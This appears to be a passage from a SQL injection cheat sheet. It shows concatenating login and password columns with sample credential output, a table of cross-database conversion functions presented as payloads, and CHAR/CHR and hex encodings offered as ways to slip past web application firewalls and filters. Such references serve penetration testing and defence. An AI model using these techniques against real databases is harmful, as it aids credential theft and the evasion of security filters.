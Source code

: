 ##### Example (Concatenating Multiple Columns)
```SQL
SELECT CONCAT(login, password) FROM members
```
```bash
# concatenation through CONCAT()
admin,admin1234
admin@mail.com,admin1234
```

### Conversion Functions
| Applicability | Payload | Notes | 
| - | - | - | 
| MySQL | `HEX('a')` = 61 | Converts to HEX value |
| MySQL, SQL Server, PostgreSQL, Oracle | `ASCII('a')` = 97 | Converts to ASCII value |
| SQL Server | `UNICODE('a')` = 97 | Converts to ASCII value |
| Oracle | `RAWTOHEX('a')` = 61 | Converts to HEX value |
| SQLite | `UNICODE('a')` = 97 | Converts to ASCII value |
| MySQL, SQL Server | `CHAR(ascii)` | returns the ascii character for a number |
| PostgreSQL | `CHR(ascii)` | returns the ascii character for a number |

#### Example (as Obfuscation, bypassing WAF & Filter Sequences)
Breaking the original payload in their ASCII equivalents
```SQL
-- MySQL
SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77)) 

-- SQL Server
SELECT CHAR(75)+CHAR(76)+CHAR(77)

-- Oracle
SELECT CHR(75)||CHR(76)||CHR(77)

-- PostgreSQL
SELECT (CHaR(75)||CHaR(76)||CHaR(77))
```
```bash
KLM
```
----
Use HEX version of a string.
```SQL
-- SQL Server
SELECT CHAR(0x66)   
> f

-- MySQL
SELECT 0x66
> f

SELECT 0x457578
> Eux
```
----
To generate HEX equivalent of a string:
```SQL
SELECT CONCAT('0x',HEX('string'))
```